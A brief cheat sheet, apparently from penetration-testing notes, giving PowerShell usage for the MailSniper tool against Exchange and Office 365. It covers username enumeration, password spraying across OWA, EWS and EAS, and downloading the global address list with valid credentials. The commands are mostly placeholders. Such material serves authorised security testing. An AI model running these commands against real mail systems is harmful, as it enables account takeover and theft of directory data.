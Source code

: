 [MailSniper](https://github.com/dafthack/MailSniper) is a password spraying tool against Office 365 and Exchange.

## Usage

---

### Import PS Script

``` powershell
ipmo C:\Tools\MailSniper\MailSniper.ps1
```

### Invoke-DomainHarvestOWA

Enumerates NetBIOS name.

``` powershell
Invoke-DomainHarvestOWA -ExchHostname <domain>
```

### Invoke-UsernameHarvestOWA

Validates valid usernames.

``` powershell
Invoke-UsernameHarvestOWA -ExchHostname <exchange_hostname> -Domain <domain> -UserList .\Desktop\possible.txt -OutFile .\Desktop\valid.txt
```

### Invoke-PasswordSprayOWA

Spray passwords against the valid accounts using Outlook Web Access (OWA), Exchange Web Services (EWS) and Exchange ActiveSync (EAS)

``` powershell
Invoke-PasswordSprayOWA -ExchHostname <exchange_hostname> -UserList .\Desktop\valid.txt -Password <password>
```

### Get-GlobalAddressList

Download the global address list with valid credentials

``` powershell
Get-GlobalAddressList -ExchHostname <exchange_hostname> -UserName <domain>\<username> -Password <password> -OutFile .\Desktop\gal.txt
```